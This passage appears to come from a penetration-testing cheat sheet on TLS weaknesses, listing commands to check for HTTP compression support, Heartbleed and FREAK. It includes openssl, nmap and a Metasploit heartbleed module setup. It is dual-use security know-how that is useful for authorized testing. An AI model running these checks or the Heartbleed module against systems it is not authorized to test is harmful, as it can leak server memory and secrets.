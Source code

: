 ```text
 openssl s_client -connect [host]:[port]
```

Submitting the following will allow us to see if HTTP compression is supported by the server.

```text
 GET / HTTP/1.1
 Host: [host]
 Accept-Encoding: compress, gzip
```

If the response contains encoded data, similar to the following response, it indicates that HTTP compression is supported; therefore the remote host is vulnerable.

```text
 HTTP/1.1 200 OK
 Server: nginx/1.1.19
 Date: Sun, 19 Mar 2015 20:48:31 GMT
 Content-Type: text/html
 Last-Modified: Thu, 19 Mar 2015 23:34:28 GMT
 Transfer-Encoding: chunked
 Connection: keep-alive
 Content-Encoding: gzip

```

A system which does not support deflate or compression will ignore the compress header request and respond with uncompressed data, indicating that it is not vulnerable.

## HeartBleed Attack

```text
python hb_test.py [host]:[port]
```

Metasploit has a dedicate module that can be used to exploit the vulnerability:

```text
use auxiliary/scanner/ssl/openssl_heartbleed
set RHOST ip_address
set RPORT 443
run
```

Also nmap:

```text
nmap -p 443 --script ssl-heartbleed [host]
```

## FREAK Attack

```text
nmap --script ssl-enum-ciphers -p 443 www.website.com |grep EXPORT
```

A specific tool can be downloaded from [https://tools.keycdn.com/freak](https://tools.keycdn.com/freak)
